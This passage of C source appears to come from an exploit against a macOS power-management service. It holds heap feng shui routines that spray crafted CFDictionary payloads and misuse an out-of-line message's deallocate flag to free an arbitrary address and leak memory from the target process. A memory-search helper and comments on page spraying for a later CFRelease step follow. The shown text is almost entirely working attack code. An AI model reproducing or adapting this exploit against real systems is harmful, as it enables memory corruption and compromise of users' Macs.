 ```c
        psids[i] = psid;
    }

    *(uint64_t*)((uint8_t*)(p+0x1C))        = target;  // address
    *(uint32_t*)((uint8_t*)(p+0x1C+24))     = size;            // size
    *(uint32_t*)((uint8_t*)(p+0x1C+24+4))   = MAGIC_TAG;        // useless in this case, we must not reply on it

    for(int i=0; i<Iter; i++) {

        // instead of releasing psid each time (which affects our heap Feng shui)
        // we release only ps->description which is a serialized CF Dict object
        // then allocate a new CFDict, this will ensure that our payload can take
        // reply's buffer at least 4 times.
        for(int i=0; i<psidCnt; i++)
            do_update_ps(service_port, &psids[i],iters,p,sz);

        ret = -1;
        // io_pm_hid_event_copy_history() has .deallocate flag TRUE, so the ool_dsc.address will
        // be implicitly deallocated right after the message sent to the receiver,
        // we'll try to to profit from this feature and deallocate an arbitrary address from process
        kr = io_pm_hid_event_copy_history(service_port,&data,&cnt,&ret);

        //if(ret == MAGIC_TAG) {
        if(cnt != 0) {
            found = 1;
#ifdef MEMDBG
            printf("iter(%d) : kr = %d ,offset = 0x%lx,cnt = %x,retval :%x \n",i,kr,data,cnt,ret);
#endif
#ifdef MEMDUMP
            DumpHex((void*)data,0x100);
            printf("******** MEMORY READ/DEALLOCATED ******* \n");
#endif
            goto finish;
        }

    }
//finish:
    // free psid allocated by us
    for(int i=0;i<psidCnt;i++) {
        io_ps_release_pspowersource(service_port,psids[i]);
        psids[i] = -1;
    }
   finish:
    return found;
}

uint64_t mem_search(uint64_t base, const void* data, size_t size) {
    const uint8_t* p = (const uint8_t*)base;
    for (;;) {
        if (!memcmp(p, data, size))
            return (uint64_t)p;

        p++;
    }
    return 0;
}
// Allocate a bunch of memory pages, and lookup for a magic value
// by inspecting condidates addresses, if found , do not release the object
// we'll use it to CFRelease(ps->description)

// returns a page-aligned memory location
```